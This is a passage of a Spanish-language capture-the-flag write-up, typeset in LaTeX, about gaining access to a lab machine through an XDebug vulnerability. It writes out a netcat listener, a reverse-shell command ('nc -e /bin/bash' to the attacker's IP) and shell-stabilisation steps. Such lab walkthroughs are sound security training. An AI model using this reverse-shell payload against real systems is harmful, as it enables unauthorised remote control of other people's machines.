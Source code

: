 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\OtherTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
El exploit functionna y el commando \textbf{ifconfig} nos da una ip que no es la 10.10.10.83. Quiere decir que estamos
en un contenedor.

\hypertarget{vuln-exploit-gaining-access}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access}}

\hypertarget{ganando-accesso-con-la-vuln-xdebug}{%
\subsection*{Ganando accesso con la vuln XDebug}\label{ganando-accesso-con-la-vuln-xdebug}}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha con netcat

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Con el exploit exploit\_shell.py lanzamos una reverse shell

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{system}\OtherTok{(}\StringTok{'nc -e /bin/bash 10.10.14.20 443'}\OtherTok{)}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

De esta manera, hemos ganado accesso al equipo.

\hypertarget{tratamiento-de-la-tty}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}
\end{document}
